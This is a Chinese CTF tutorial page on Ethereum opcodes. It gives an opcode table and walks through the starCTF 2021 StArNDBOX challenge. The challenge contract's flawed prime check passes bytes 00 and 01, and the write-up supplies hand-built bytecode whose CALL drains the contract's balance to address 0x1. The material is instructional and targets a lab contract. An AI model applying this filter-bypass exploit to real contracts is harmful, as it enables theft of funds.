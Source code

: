 # Ethereum Opcodes
Ethereum 中的 opcodes 有 142 种，部分常见的 opcodes 如下所示：

| Uint8 | Mnomonic |      Stack Input       | Stack Output |              Expression              |
| :---: | :------: | :--------------------: | :----------: | :----------------------------------: |
|  00   |   STOP   |           -            |      -       |                STOP()                |
|  01   |   ADD    |      \| a \| b \|      | \| a + b \|  |                a + b                 |
|  02   |   MUL    |      \| a \| b \|      | \| a * b \|  |                a * b                 |
|  03   |   SUB    |      \| a \| b \|      | \| a - b \|  |                a - b                 |
|  04   |   DIV    |      \| a \| b \|      | \| a // b \| |                a // b                |
|  51   |  MLOAD   |      \| offset \|      | \| value \|  |   value = memory[offset:offset+32]   |
|  52   |  MSTORE  | \| offset \| value \|  |      -       |   memory[offset:offset+32] = value   |
|  54   |  SLOAD   |       \| key \|        | \| value \|  |         value = storage[key]         |
|  55   |  SSTORE  |   \| key \| value \|   |      -       |         storage[key] = value         |
|  56   |   JUMP   |   \| destination \|    |      -       |          $pc = destination           |
|  5B   | JUMPDEST |           -            |      -       |                  -                   |
|  F3   |  RETURN  | \| offset \| length \| |      -       | return memory[offset:offset+length]  |
|  FD   |  REVERT  | \| offset \| length \| |      -       | revert(memory[offset:offset+length]) |

!!! info 
    JUMPDEST 是跳转指令的 destination，跳转指令不能跳转到没有 JUMPDEST 的地方。

更多的详细 opcodes 信息可以查看 [ethervm.io](https://ethervm.io)。

## 例子
以 startCTF 2021 的 StArNDBOX 一题为例讲解一下 opcodes 的题目。

本题会在部署挑战合约的时候传入 100 wei 到合约中，我们的目标是将合约的 balance 清空。题目合约的源码如下：

```solidity
pragma solidity ^0.5.11;

library Math {
    function invMod(int256 _x, int256 _pp) internal pure returns (int) {
        int u3 = _x;
        int v3 = _pp;
        int u1 = 1;
        int v1 = 0;
        int q = 0;
        while (v3 > 0){
            q = u3/v3;
            u1= v1;
            v1 = u1 - v1*q;
            u3 = v3;
            v3 = u3 - v3*q;
        }
        while (u1<0){
            u1 += _pp;
        }
        return u1;
    }
    
    function expMod(int base, int pow,int mod) internal pure returns (int res){
        res = 1;
        if(mod > 0){
            base = base % mod;
            for (; pow != 0; pow >>= 1) {
                if (pow & 1 == 1) {
                    res = (base * res) % mod;
                }
                base = (base * base) % mod;
            }
        }
        return res;
    }
    function pow_mod(int base, int pow, int mod) internal pure returns (int res) {
        if (pow >= 0) {
            return expMod(base,pow,mod);
        }
        else {
            int inv = invMod(base,mod);
            return expMod(inv,abs(pow),mod);
        }
    }
    
    function isPrime(int n) internal pure returns (bool) {
        if (n == 2 ||n == 3 || n == 5) {
            return true;
        } else if (n % 2 ==0 && n > 1 ){
            return false;
        } else {
            int d = n - 1;
            int s = 0;
            while (d & 1 != 1 && d != 0) {
                d >>= 1;
                ++s;
            }
            int a=2;
            int xPre;
            int j;
            int x = pow_mod(a, d, n);
            if (x == 1 || x == (n - 1)) {
                return true;
            } else {
                for (j = 0; j < s; ++j) {
                    xPre = x;
                    x = pow_mod(x, 2, n);
                    if (x == n-1){
                        return true;
                    }else if(x == 1){
                        return false;
                    }
                }
            }
            return false;
        }
    }
    
    function gcd(int a, int b) internal pure returns (int) {
        int t = 0;
        if (a < b) {
            t = a;
            a = b;
            b = t;
        }
        while (b != 0) {
            t = b;
            b = a % b;
            a = t;
        }
        return a;
    }
    function abs(int num) internal pure returns (int) {
        if (num >= 0) {
            return num;
        } else {
            return (0 - num);
        }
    }
    
}

contract StArNDBOX{
    using Math for int;
    constructor()public payable{
    }
    modifier StAr() {
        require(msg.sender != tx.origin);
        _;
    }
    function StArNDBoX(address _addr) public payable{
        
        uint256 size;
        bytes memory code;
        int res;
        
        assembly{
            size := extcodesize(_addr)
            code := mload(0x40)
            mstore(0x40, add(code, and(add(add(size, 0x20), 0x1f), not(0x1f))))
            mstore(code, size)
            extcodecopy(_addr, add(code, 0x20), 0, size)
        }
        for(uint256 i = 0; i < code.length; i++) {
            res = int(uint8(code[i]));
            require(res.isPrime() == true);
        }
        bool success;
        bytes memory _;
        (success, _) = _addr.delegatecall("");
        require(success);
    }
}
```

可以看到题目的 `StArNDBoX` 函数可以获取任意地址的合约并检测该合约的每个字节是否为质数，如果通过检查则使用 `delegatecall` 来调用目标合约。

但由于该合约中的 `isPrime` 函数并不是完整的质数检查函数，`00` 和 `01` 也可以通过检查，因此我们可以构造如下的字节码：

```
// 0x6100016100016100016100016100016100650361000161fbfbf1
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 65 | PUSH2 0x0065
03       | SUB
61 00 01 | PUSH2 0x0001
61 fb fb | PUSH2 0xfbfb
f1       | CALL
```

来执行 `address(0x0001).call.gas(0xfbfb).value(0x0065 - 0x0001)` 语句，也就是将题目合约中的 balance 转到 0x1 处，从而清空 balance 满足得到 flag 的条件。


## 题目

### starCTF 2021
- 题目名称 StArNDBOX

### RealWorld 2019
- 题目名称 Montagy

### QWB 2020
- 题目名称 EasySandbox
- 题目名称 EGM

### 华为鲲鹏计算 2020
- 题目名称 boxgame

!!! note
    注：题目附件相关内容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 仓库寻找。

## 参考
- [Ethervm](https://ethervm.io)
- [starCTF 2021 - StArNDBOX](https://github.com/sixstars/starctf2021/tree/main/blockchain-StArNDBOX)